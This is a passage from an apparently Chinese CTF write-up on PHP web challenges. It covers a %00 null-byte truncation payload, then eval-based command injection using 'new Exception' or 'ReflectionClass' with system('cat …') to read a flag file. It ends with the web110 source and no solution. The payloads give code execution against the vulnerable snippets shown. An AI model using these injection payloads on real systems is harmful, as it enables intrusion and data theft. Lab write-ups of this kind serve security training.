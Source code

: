 这题限制c只能是**一个或多个大小写字母**。

### strrev()函数

strrev() 函数反转字符串。

### intval()函数

intval() 函数用于获取变量的整数值。

这题同时又要求c反转后与0x36d相等，同时满足这两点，需要用到%00截断。

最终payload:

```
?c=a%00778 
```

```
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
?> 
```

具体原理还不是很清楚。

payload:

```
?v1=Exception&v2=system('cat fl36dg.txt')
?v1=ReflectionClass&v2=system('cat fl36dg.txt') 
```

## web110

```
<?php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?> 
```
